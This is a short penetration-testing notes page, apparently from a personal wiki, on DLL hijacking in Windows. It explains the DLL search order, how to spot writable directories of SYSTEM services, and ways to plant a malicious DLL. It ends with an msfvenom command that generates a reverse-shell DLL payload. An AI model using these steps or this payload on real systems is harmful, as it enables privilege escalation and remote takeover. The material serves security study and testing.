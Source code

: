 ## Overview
DLL Hijacking is a type of attack against Windows applications that loads a malicious package as part of a call to another piece of software. These attacks involve abusing the DLL search order to load a malicious DLL instead of the intended one. 
## Core
DLL hijacking is a vulnerability similar to the unquoted service path vulnerability that takes advantage of the [Windows DLL Search Order](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order) and an improper reference to the DLL within the application. If an application does not include an explicit path to the DLL it is calling, it will search for the DLL in these places:
- DLL Redirect
- Win32 API
- SxS Manifest
- Loaded Modules
- Known System DLLs
- Package Dependency Graph
- Executable Folder
- System32
- System
- Windows Folder
- Current Folder
- Directories in $PATH 
To find DLL hijacking vulnerabilities, look for applications or services running as SYSTEM with executable paths in writable directories. Note that the root directory is writable by default and new directories will inherit this property. Folder permissions should read ` _NT AUTHORITY\Authenticated Users:(I)(M)_ ` if you can modify the contents. 
- If this is the case, you can exploit by replacing a DLL in the application directory with a malicious one. 
- If an application is calling a DLL that does not exist, you can exploit by placing an appropriately named malicious DLL in a directory that is in the system $PATH.
- If you find an application calling a DLL and have access to a location that would precede the DLL location in the search order, you can exploit by placing an appropriately named DLL in that location.
Malicious DLLs can be created with [[MSF Venom]] using the ` -f ` flag to specify the file type as DLL. Example:
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=1234 -f dll -o msf.dll 
```
